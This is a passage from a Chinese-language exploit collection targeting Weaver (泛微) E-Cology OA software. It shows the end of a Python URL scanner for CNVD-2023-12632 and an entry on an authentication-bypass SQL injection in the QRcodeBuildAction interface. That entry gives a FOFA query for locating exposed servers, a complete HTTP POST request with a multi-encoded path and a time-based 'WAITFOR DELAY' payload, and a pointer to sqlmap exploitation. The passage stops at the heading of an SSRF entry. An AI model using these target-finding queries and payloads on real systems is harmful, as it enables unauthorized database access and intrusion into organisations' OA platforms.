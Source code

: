 ```
        output_file = open(args.output, 'a')  # 以追加模式打开输出文件

    if args.url:
        check_url(args.url, args.output)
    elif args.file:
        check_urls_from_file(args.file, args.output)
    else:
        parser.print_help()

    # 注册捕获中断信号的处理程序
    signal.signal(signal.SIGINT, handle_interrupt)

    # 关闭输出文件
    if output_file:
        output_file.close()


if __name__ == '__main__':
    author_name = "-----------------------------========================== SharpKean"
    print("Author：", author_name)
    main()
```  
  
脚本来源  
- https://github.com/SharpKean/CNVD-2023-12632_POC  
- https://github.com/ChinaRan0/3url  
### 2.1.9泛微E-Cology9平台QRcodeBuildAction存在身份认证绕过导致SQL注入漏洞  
  
由于泛微E-Cology9 weaver.formmode.servelt.QRcodeBuildAction接口未对用户传入的数据进行严格的校验和过滤，导致攻击者利用多层编码的方式绕过身份认证进行SQL注入。  
  
1.fofa  
  
 app="泛微-OA（e-cology）"  
  
2.poc  
  
注入点为modeid并且每注入一次就需要更换参数值  
```
POST /weaver/weaver.formmode.servelt.QRcodeBuildAction/login/LoginSSO.%25%36%61%25%37%33%25%37%30 HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.5672.127 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Connection: close

modeid=127+WAITFOR+DELAY+'0%3a0%3a5'
```  
  
sqlmap利用方式：  
https://blog.csdn.net/qq_41904294/article/details/131666128  
### 2.1.10泛微E-Cology接口getFileViewUrl存在SSRF漏洞  
  